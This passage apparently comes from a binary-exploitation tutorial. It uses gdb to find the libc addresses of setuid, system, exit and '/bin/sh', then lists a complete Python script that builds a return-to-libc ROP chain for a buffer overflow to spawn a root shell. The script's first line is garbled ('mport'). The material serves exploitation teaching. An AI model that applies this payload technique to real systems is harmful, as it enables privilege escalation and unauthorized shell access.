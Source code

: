 Since we already got a break, we can also get the
addresses of the functions we'll be using:

```
(gdb) p setuid
$1 = {<text variable, no debug info>} 0x7ffff7af2fa0 <__setuid>
(gdb) p system
$2 = {<text variable, no debug info>} 0x7ffff7a79480 <__libc_system>
(gdb) p exit
$3 = {<text variable, no debug info>} 0x7ffff7a6f980 <__GI_exit>
```

All that is left is to find the address of "/bin/sh":

```
(gdb) find 0x7ffff7a3a000, 0x7ffff7dd5000, "/bin/sh"
0x7ffff7b9bc19
```

Now we got all the building blocks! Time to put it
all together.

Since we need to `pop rdi` before
making a function call, let's return to `pop rdi`
and put the `rdi` value right after it:

```
pop rdi + 0 + setuid + address of "/bin/sh" + system + exit
```

You can see it coded at `second_read.py`:

```
mport sys
import struct

setuid = struct.pack("Q", 0x7ffff7af2fa0)
system = struct.pack("Q", 0x7ffff7a79480)
exit = struct.pack("Q", 0x7ffff7a6f980)
bin_sh = struct.pack("Q", 0x7ffff7b9bc19)
pop_rdi = struct.pack("Q", 0x7ffff7bac9fd)
zero = struct.pack("Q", 0)

payload = b'A' * 0x10
payload += b'BBBBBBBB'
payload += pop_rdi
payload += zero
payload += setuid
payload += pop_rdi
payload += bin_sh
payload += system
payload += exit

sys.stdout.buffer.write(payload)
```

### Using the Exploit
